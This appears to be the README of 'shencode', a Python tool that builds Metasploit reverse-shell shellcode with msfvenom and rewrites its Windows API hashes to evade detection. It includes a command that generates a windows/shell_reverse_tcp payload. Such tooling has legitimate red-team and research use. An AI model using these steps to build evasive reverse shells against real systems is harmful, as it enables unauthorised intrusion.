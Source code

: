 # shencode

**dev breanch**

automation script for creating and obfuscating metasploit shellcode

![](shencode-2.png)

## Features

### Version 0.2

- build shellcode with msfvenom
- searching for hashed Windows API functions
- change ROR13 Hash to ROL Hash with individual Key
- Raw and formatted output (C++,C#, C inline ASM, Powershell, Python, Hex)
- Added a subparser
- choose between building a shellcode and use an existing one
- (more) object oriented rewrite for better module integration

## ToDo

- chaining commands for better integration
- write shellcode in a template file (.cpp)
- automatical compile feature
- integrate more frameworks
- integrate more encoder
- Use PATH for better msfvenom integration

## How to use

### creating shellcode

`python shencode.py create --payload windows/shell_reverse_tcp --lhost 127.0.0.1 --lport 4443`

### encode shellcode

`python shencode.py encode --filename sc-120824-120101.bin --key 33 [--decompile] [--showmod]`

### output in different styles

`python.py -o {c, casm, cs, ps1, py, hex} <commands>`

Check [this repository](https://github.com/psycore8/bin2shellcode) for more information regarding the output.

## Config

Please change the metasploit path in line 8. This will be fixed in the future.

`msfvenom_path = "c:\\metasploit-framework\\bin\\msfvenom.bat"`

## Parameter


| Command  | Subcommand  | Description                                                        |
| -------- | ----------- | ------------------------------------------------------------------ |
| create   |             | create a shellcode using msfvenom                                  |
|          | --payload   | payload to use e.g. windows/shell_reverse_tcp                      |
|          | --lhost     | LHOST Argument                                                     |
|          | --lport     | LPORT Argument                                                     |
| encode   |             | encode windows function hashes to ROL                              |
|          | --filename  | raw input file with shellcode                                      |
|          | --key       | ROL key for encoding                                               |
|          | --decompile | decompile modified bytes                                           |
|          | --showmod   | display modifications                                              |
| --output |             | formatting the shellcode in C, Casm, C#, Powershell, python or hex |

## Credits

The encoding part is initially taken from [bordergate.co.uk](https://www.bordergate.co.uk/function-name-hashing/). Great work!
